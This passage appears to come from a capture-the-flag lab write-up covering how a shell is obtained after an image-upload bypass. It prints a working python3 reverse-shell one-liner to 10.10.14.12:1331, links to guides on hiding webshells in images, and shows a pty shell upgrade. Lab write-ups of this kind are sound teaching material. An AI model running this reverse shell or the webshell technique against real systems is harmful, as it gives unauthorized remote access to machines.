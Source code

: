 
## Getting shell

I then used the python3 reverse shell to get a reverse shell.


```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",1331));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](Pictures/got_shell.png)


You get the shell as www-data


**Refer to these**

https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/hiding-webshell-backdoor-code-in-image-files/

https://github.com/xapax/security/blob/master/bypass_image_upload.md

## User

First get a shell 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
```
